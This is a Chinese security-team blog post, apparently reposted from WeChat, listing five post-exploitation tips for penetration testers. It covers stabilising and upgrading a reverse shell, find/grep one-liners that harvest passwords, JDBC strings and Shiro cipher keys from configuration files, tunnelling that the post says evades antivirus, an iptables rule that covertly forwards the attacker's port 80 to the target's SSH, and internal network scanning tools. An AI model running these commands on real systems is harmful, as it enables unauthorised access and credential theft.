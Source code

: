 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lKiF4Qtmj_WIakrptc8IoA)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMqXyOIeCdqM3p6cDcJajNxkXU9Xaoicb7cHysyiad3YELb0DeBibhEUbmA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

本文由团队大佬Cedr0ic总结编写

**01**

  

**姿势⼀-反弹shell后如何保持会话不断**

  

⼀般弹回来⼀个shell后我们⾸先要确保shell不能掉，这⾥可以借⽤screen来保存会话

screen 

screen -ls

Screen -r 会话id

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMUaL5o9CbTKKqfAQuOKr6pI8DtQDVVBYCoZxGXfnacTauBGpeLHTAVg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ov836aiagXu6QjcUJ7PANdN0pQJFo6ZOMIWbJ5Iicqb762hZs9qdrI6cfibmKygfuMmice1RR9pIuXqhV0CPqt3GBQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**02**

  

**姿势⼆-如何将反弹shell⽣成交互式的shell**

  

⼀般反弹回来的shell有很多缺陷

1.⼀些命令，⽐如“su”和“ssh”需要适当的终端才能运⾏

2.标准错误信息（STDERR）经常不会被显示出来

3.不能正确使⽤⽂本编辑器如VIM

4.没有命令补全功能

5.“上”按键没有历史纪录功能

6.没有任务管理功能

7. Ctrl-C 会断

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

因此这⾥需要⽣成⼀个交互式shell以下⼏⾏命令可以完成操作。

```
`python -c 'import pty; pty.spawn("/bin/bash")' //⽣成py半交互式shell ctrl+Z``stty raw -echo fg``reset``export SHELL=bash``export TERM=xterm256-color stty rows 38 columns 116`
```

新的交互式shell

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**03**

  

**姿势三-如何快速信息收集获取服务器⼝令**

  

⼀、⼝令获取

获得目标主机的权限后，通过查看网站的配置文件，获得口令信息

常⽤密码⽂件收集整理

```
`find / -name *.properties 2>/dev/null | grep WEB-INF``find / -name "*.properties" | xargs egrep -i "user|pass|pwd|uname|login|db_" find / -regex ".*\.properties\|.*\.conf\|.*\.config" | xargs grep -E "=jdbc:|pass="``find /webapp -regex ".*\.properties" -print 2>/dev/null | xargs grep -E "=jdbc:|rsync"``find / -regex ".*\.properties" -print  2>/dev/null``find / -regex ".*\.properties\|.*\.conf\|.*\.config\|.*\.sh" | xargs grep -E "=jdbc:|pass=|passwd="``grep -r 'setCipherKey(Base64.decode(' /web路径``find / -regex ".*\.xml\|.*\.properties\|.*\.conf\|.*\.config\|.*\.jsp" | xargs grep -E "setCipherKey"`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

⼆、github 搜密码技巧

xxx.com  filename:properties

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**04**

  

**姿势四-隧道代理技术绕过⼤部分杀软**

  

服务器出⽹：https://github.com/ehang-io/nps（安装使⽤⽅法这⾥省略）

⽀持多种协议代理⽅式

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

服务器不出⽹：使⽤端⼝复⽤技巧

iptables -t nat -I PREROUTING 1 -p tcp -s 攻击者的IP --dport 80 -j DNAT -- to-destination 靶机的IP:22

  

配置完成后，攻击者的IP连接靶机的80端⼝，可登录靶机的SSH服务；其它机器可正常访问靶机的HTTP服务；

攻击者的IP没法访问靶机的HTTP服务。

**05**

  

**姿势五-使⽤脚本对内⽹常⻅服务进⾏快速扫描**

  

扫描⼯具：只需要python环境不需要其他库

https://github.com/PINGXcpost/F-NAScan-PLUS

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

对F-NAScan-PLUS扫描报告中单个服务进⾏提取

https://github.com/soxfmr/F-NAScan-Export

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)  

[干货|常用渗透漏洞poc、exp收集整理](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485181&idx=3&sn=9eb034dd011ac71c4e3732129c332bb3&chksm=ea37f9a7dd4070b1545a9cb71ba14c8ced10aa30a0b43fb5052aed40da9ca43ac90e9c37f55a&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次HW实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)  

[【超详细】Fastjson1.2.24反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的“FOFA”工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**往期文章有彩蛋哦****![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)**

  

[](http://mp.weixin.qq.com/s?__biz=MzAwMzc2MDQ3NQ==&mid=2247483808&idx=1&sn=e49283ccb0de1a3b7ac89e9cdb6d0e2f&chksm=9b370994ac4080829721246426d4dee351a4b7bdc2ac737f1f5fe1eb1a69eeb8a1dcaeb50b13&scene=21#wechat_redirect)![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

安

全

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**扫描二维码 ｜****关注我们**

微信号 : WhITECat_007  ｜  名称：WhITECat安全团队